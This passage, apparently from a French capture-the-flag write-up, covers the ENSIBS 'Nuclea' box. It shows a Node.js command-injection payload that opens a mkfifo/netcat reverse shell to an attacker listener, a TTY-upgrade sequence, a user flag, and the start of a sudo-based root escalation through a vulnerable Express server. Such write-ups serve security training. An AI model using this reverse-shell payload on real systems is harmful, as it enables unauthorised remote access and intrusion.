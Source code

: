 ```javascript
{ require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f')) }
```

Et on obtient bien un accès sur notre listener.

Je fais ensuite en sorte d'avoir un shell totalement interactif.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'

	<Ctrl+Z>

stty -a | head -n1 #Je lis les valeurs rows & columns
stty raw -echo
fg #Il faut faire plusieures fois entrée
stty rows X columns Y #Avec X et Y les valeurs lues plus haut
export TERM=xterm-256color
```

Puis on va lire le flag

```bash
cd 
cat flag
	ENSIBS{Web-ServerUserFlagHereBroooo}
```

Parfait, passons à l'étape 3.

# Obtenir un shell root

Déjà, le premier reflexe est de voir ce qu'on peut executer avec sudo.

![Retour de sudo -l](/img/Nuclea_sudo.jpg)

Le sudo nous permet de lancer un serveur node.js en tant que root. En regardant les processus, on voit que ce serveur tourne déjà. On va dans un premier temps regarder le code de ce dernier.

```javascript
const express = require('express')
const  express_basic_auth = require('express-basic-auth')
const { spawn } = require('child_process')

const config = {
    PORT : 3000
}

const check_credentials = (user,password) => {
    const process = spawn('/bin/bash',['/healthcheck/authent.sh', user, password ])
    console.log(String(process.stdout))
    return String(process.stdout) == 'True'
}

const basic_auth = express_basic_auth({
    authorizer : check_credentials,
    unauthorizedResponse: (req) => {
        return req.auth
        ? ('Credentials ' + req.auth.user + ':' + "**********" + ' rejected')
        : 'No credentials provided'
    }
})
```